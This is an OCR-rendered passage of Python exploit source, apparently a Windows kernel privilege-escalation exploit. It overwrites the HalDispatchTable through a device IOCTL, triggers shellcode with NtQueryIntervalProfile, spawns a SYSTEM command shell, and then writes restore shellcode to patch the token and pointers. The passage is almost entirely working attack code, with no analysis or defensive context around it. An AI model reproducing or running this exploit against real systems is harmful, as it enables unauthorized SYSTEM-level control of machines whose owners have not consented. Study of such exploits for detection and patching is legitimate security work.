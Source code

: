     ## Trigger shellcode
    inp  = c_ulong()
    out  = c_ulong()
    inp  = 0x1337
    hola = ntdll.NtQueryIntervalProfile(inp, byref(out))
    ## Spawn a system shell, w00t!
    print "[*] Spawning a SYSTEM shell..."
    os.system("cmd.exe /T:C0 /K cd c:\\windows\\system32")

    ############################## POST EXPLOITATION ###############################
    print "[*] Restoring token..."
    ## Restore the thingie
    shellcode         = padding + restore_ptrs + restore_token
    shellcode_size    = len(shellcode)
    trail_padding     = (orig_size - shellcode_size) * "\x00"
    shellcode        += trail_padding
    shellcode_size   += (orig_size - shellcode_size)
    ## Write restore shellcode in userspace (dep)
    kernel32.WriteProcessMemory(-1, shellcode_address_dep, shellcode,
                                       shellcode_size, byref(written))
    ## Write restore shellcode in userspace (nodep)
    kernel32.WriteProcessMemory(-1, shellcode_address_nodep, shellcode,
                                       shellcode_size, byref(written))
    ## Overwrite HalDispatchTable once again
    NTSTATUS = ntdll.ZwDeviceIoControlFile(client,
                                           None,
                                           None,
                                           None,
                                           byref(IoStatusBlock),
                                           IOCTL,
                                           inputbuffer,
                                           inputbuffer_size,
                                           outputbuffer,
                                           outputbuffer_size
                                           )
    ## Trigger restore shellcode
    hola = ntdll.NtQueryIntervalProfile(inp, byref(out))
    print "[+] Restore done! Have a nice day :)"